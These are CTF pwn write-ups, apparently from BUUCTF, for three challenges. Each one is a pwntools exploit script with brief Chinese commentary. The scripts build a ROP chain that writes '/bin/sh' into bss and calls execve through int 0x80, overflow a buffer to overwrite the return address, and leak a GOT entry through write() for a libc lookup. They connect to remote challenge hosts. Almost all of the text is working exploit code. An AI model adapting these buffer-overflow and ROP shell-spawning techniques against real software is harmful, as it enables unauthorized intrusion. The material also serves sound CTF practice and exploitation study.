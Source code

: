 # buu047-cmcc_simplerop
和上一道题的思路完全相同。
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26121)
int80 = 0x80493E1
popeax_ret = 0x80BAE06
popedx_ret = 0x806e82a
popecx_ebx_ret = 0x806E851
addesp0x14_ret = 0x807b36c
bss = 0x80EB060
read = 0x806CD50
payload = cyclic(0x14 + 12)

payload += p32(read)			# call read()
payload += p32(addesp0x14_ret)	# return address, add esp to execute latter ROP
payload += p32(0)				# arg #1 of read(): stdin
payload += p32(bss)				# arg #2 of read(): a bss address
payload += p32(0x8)				# arg #3 of read(): read length
payload += p32(0) * 2

payload += p32(popeax_ret)		# eax = 0x11(SYS_EXECVE)
payload += p32(11)
payload += p32(popecx_ebx_ret)
payload += p32(0)				# ebx = '/bin/sh'
payload += p32(bss)				# edx = 0
payload += p32(popedx_ret)
payload += p32(0)				# ecx = 0
payload += p32(int80)			# int 80

io.sendline(payload)
io.sendline(b'/bin/sh' + b'\x00')
io.interactive()
```
# buu048-picoctf_2018_buffer overflow 2
```python
from pwn import *
context.log_level='debug'
# io = process('pwn')
io = remote('node4.buuoj.cn', 27446)
io.sendline(cyclic(0x6C+4) + p32(0x80485CB) + p32(0) + p32(0xdeadbeef) + p32(0xdeadc0de))
io.interactive()
```
# buu049-xdctf2015_pwn200
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 25724)
elf = ELF('./pwn')
payload = cyclic(0x6C + 4)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vuln'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n', payload)
```